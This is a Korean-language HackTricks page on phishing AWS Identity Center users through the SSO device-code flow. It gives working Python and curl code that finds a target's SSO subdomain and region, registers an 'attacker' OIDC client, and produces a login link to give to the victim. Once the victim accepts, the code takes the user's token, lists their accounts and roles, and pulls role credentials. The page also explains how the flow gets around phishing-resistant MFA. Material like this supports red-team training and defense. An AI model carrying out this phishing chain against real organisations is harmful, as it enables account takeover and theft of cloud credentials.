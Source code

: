 # AWS - Identity Center & SSO Unauthenticated Enum

<details>

<summary><strong>htARTE (HackTricks AWS Red Team 전문가)</strong>를 통해 **제로**부터 **히어로**까지 AWS 해킹을 배우세요!</summary>

HackTricks를 지원하는 다른 방법:

- **회사가 HackTricks에 광고**되길 원하거나 **PDF 형식의 HackTricks를 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
- [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
- **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
- **해킹 요령을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>

## AWS 디바이스 코드 피싱

초기에 [**이 블로그 게시물**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)에서 제안된 것처럼, AWS SSO를 사용하는 사용자에게 **링크**를 보내면 **사용자가 수락하면** 공격자가 **사용자를 흉내 내는 토큰을 얻을 수** 있고 **Identity Center**에서 사용자가 액세스할 수 있는 모든 역할에 액세스할 수 있습니다.

이 공격을 수행하기 위한 요구 사항은 다음과 같습니다:

- 피해자는 **Identity Center**를 사용해야 합니다.
- 공격자는 피해자가 사용하는 **서브도메인**을 알아야 합니다 `<victimsub>.awsapps.com/start`

이전 정보만으로도 **공격자는 사용자에게 링크를 보낼 수 있으며**, 사용자가 **수락하면 공격자가 AWS 사용자 계정에 액세스**할 수 있습니다.

### 공격

1. **서브도메인 찾기**

공격자의 첫 번째 단계는 피해자 회사가 Identity Center에서 사용하는 서브도메인을 찾는 것입니다. 대부분의 회사는 여기에 자신의 이름 또는 이름의 변형을 사용할 것이므로 **OSINT** 또는 **추측 + BF**를 통해 이 작업을 수행할 수 있습니다.

이 정보를 통해 **Identity Center가 구성된 지역을 얻을 수 있습니다:**
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **피해자를 위한 링크 생성 및 전송**

다음 코드를 실행하여 피해자가 인증할 수 있는 AWS SSO 로그인 링크를 생성합니다.\
데모를 위해 이 코드를 파이썬 콘솔에서 실행하고 추후 토큰을 얻기 위해 일부 객체가 필요하므로 콘솔을 종료하지 마십시오:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
3. **피해자가 수락할 때까지 기다립니다**

피해자가 이미 AWS에 로그인되어 있으면 권한 부여를 수락하기만 하면 되지만, 그렇지 않은 경우 로그인한 후 권한 부여를 수락해야 합니다.\
현재 프롬프트는 다음과 같이 보입니다:

<figure><img src="../../../.gitbook/assets/image (154).png" alt="" width="311"><figcaption></figcaption></figure>

4. **SSO 액세스 토큰 가져오기**

피해자가 프롬프트를 수락한 경우, 다음 코드를 실행하여 사용자를 흉내 내는 SSO 토큰을 생성합니다:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSO 액세스 토큰은 **8시간 동안 유효**합니다.

5. **사용자를 사칭**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### "피싱할 수 없는 MFA"를 피싱하기

이전 공격이 **"피싱할 수 없는 MFA" (webAuth)를 사용하더라도 작동하는 것은 재미있는 일**입니다. 이는 이전 **워크플로우가 사용된 OAuth 도메인을 벗어나지 않기 때문**입니다. 사용자가 로그인 도메인을 대체해야 하는 다른 피싱 공격과는 달리, 이 경우 장치 코드 워크플로우가 준비되어 **장치가 코드를 알고 있고 사용자가 다른 기기에서도 로그인할 수 있도록**합니다. 사용자가 프롬프트를 수락하면, 장치는 **초기 코드를 알고 있기 때문에** 사용자의 자격 증명을 **검색**할 수 있습니다.

자세한 정보는 [**이 게시물을 확인하세요**](https://mjg59.dreamwidth.org/62175.html).

### 자동 도구

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## 참고 자료

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 제로부터 AWS 해킹을 전문가로 배우세요</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 홍보하거나 HackTricks를 PDF로 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나** 트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **HackTricks** 및 **HackTricks Cloud** 깃허브 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>
